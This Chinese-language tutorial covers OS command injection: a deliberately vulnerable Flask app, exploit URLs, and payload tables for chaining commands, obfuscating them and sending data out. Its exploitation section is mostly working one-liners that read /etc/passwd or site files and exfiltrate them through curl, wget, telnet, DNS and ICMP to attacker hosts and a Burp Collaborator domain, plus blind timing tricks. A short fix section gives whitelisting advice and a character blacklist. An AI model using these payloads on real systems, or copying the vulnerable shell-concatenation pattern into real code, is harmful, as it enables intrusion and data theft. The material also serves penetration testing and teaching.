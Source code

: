 ## 0x01 命令执行漏洞原理

### 1.1 简介

​	Web应用程序在实现某些高级功能时可能需要调用外部程序来实现，如果引入的外部程序本身存在安全隐患或对传入的参数进行拼接操作，可能会导致程序出现安全问题。

## 0x02 命令执行漏洞利用

### 2.1 网页截图

#### 2.1.1 漏洞代码

```
# -*- coding: utf-8 -*-

import subprocess
from flask import Flask, request, send_file
app = Flask(__name__)

@app.route("/", methods=['GET','POST'])
def index():
    url = request.args.get('url')
    argstr = request.args.get('argstr')
    cmdstr = "wkhtmltoimage.exe {} {} image.png".format(argstr, url)
    rsp = subprocess.Popen(cmdstr, shell=True)
    rsp.wait()
    return send_file('image.png', mimetype='image/gif')
    
if __name__ == '__main__':

    app.run(debug = True)
```

#### 2.1.2 漏洞利用

​	如下图所示，通过命令连接符连接多个命令，成功写入123.txt。

```
http://127.0.0.1:5000/?argstr=||echo%20123%20%3E%20c:\123.txt||&url=
http://127.0.0.1:5000/?argstr=&url=||echo%20123%20%3E%20c:\123.txt
```

### 2.2 Bypass

#### 2.2.1 命令拼接

| 连接符     | 示例                                                         |
| ---------- | ------------------------------------------------------------ |
| \|         | ping www.xx.com -c 1\|cat /etc/passwd;                       |
| \|\|       | ping www.xx.com -c 1\|\|cat /etc/passwd;                     |
| &          | ping www.xx.com -c 1&cat /etc/passwd;                        |
| &&         | ping www.xx.com -c 1&&cat /etc/passwd;                       |
| ;          | ping www.xx.com -c 1;cat /etc/passwd;                        |
| $(sleep 5) | ping www.xx.com -c $(sleep 5);                               |
| %0d%0a     | ping www.xx.com -c 1%0d%0acat /etc/passwd;                   |
| ../        | cmd.exe /c "ping 127.0.0.1/../../../../../../../../../../windows/system32/ipconfig.exe" |

#### 2.2.2 命令混淆

- Linux

```
uname${IFS}-a
uname$IFS$9-a
uname%09-a

a=l;b=s;$a$b -la
ca\t /etc/passwd

echo 'ls /'|base64
echo bHMgLwo=|base64 -d
```

- Windows

```
(who"a"mi)
who"a"^mi

set a=w
set b=hoami
%a%%b%
```

#### 2.2.3 命令回传

- windows

```
telnet xx.xx.xx.xx:xxxx < c:\win.ini
```

```
net use h: \\xxx.xxx.xxx.xxx\web /user:administrator 123456 && copy index.php h:\index.php
```

- linux

```
curl -X POST -F xx=@index.php http://s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net
cat /etc/passwd | curl –F ":data=@-" http://xx.xx.xx.xxx:xxxx/test.txt
curl –T /etc/passwd ftp://xxx.xxx.xxx.xxx –-user {username}:{password}
```

```
wget --header="evil:`cat /etc/passwd | xargs echo –n`" http://xxx.xxx.xxx:xxxx
wget --post-data exfil=`cat /etc/passwd`&b=1 http://xxx.xxx.xxx.xxx:xxxx
wget --post-file index.php http://xxx.xxx.xxx.xxx:xxxx
```

```
cat /etc/passwd | while read exfil; do host $exfil.contextis.com 192.168.107.135; done
```

```
ping `cat /etc/passwd|wc -c`.baidu.com	# 计算passwd内容字节长度
ping `cat /etc/passwd|base64|cut -c 1-20`.baidu.com	# 截取字符串
```

```
cat /etc/passwd | xxd -p -c 16 | while read exfil; do ping -p $exfil -c 1 xxx.xxx.xxx.xxx; done	# ICMP回显
```

```
$(sleep $(cat index.php | wc -c))	# 计算index.php内容字符长度
$(sleep $(cat index.php | cut -c 1 | tr a 5))	# 取index.php文件中的第一个字符,如果是'a',则转换为5
```

```
for /F %x in ('whoami') do start s4xv9zxsbg6xb13gwx0a68zai1orcg.burpcollaborator.net/[%x].jpg
```

## 0x03 命令执行漏洞修复

### 3.1 白名单进行过滤

​	可通过白名单限制字符类型，仅允许字符、数字、下划线，或过滤转义相关字符。

### 3.2 避免拼接操作系统命令

​	避免通过"cmd"、“bash”、“sh”等命令创建shell后拼接外部数据来执行操作系统命令。

```
func checkIllegal(cmdName string) bool {
	if strings.Contains(cmdName, "&") || strings.Contains(cmdName, "|") || strings.Contains(cmdName, ";") ||
		strings.Contains(cmdName, "$") || strings.Contains(cmdName, "'") || strings.Contains(cmdName, "`") ||
		strings.Contains(cmdName, "(") || strings.Contains(cmdName, ")") || strings.Contains(cmdName, "\"") {
		return true
	}
	return false
}
```



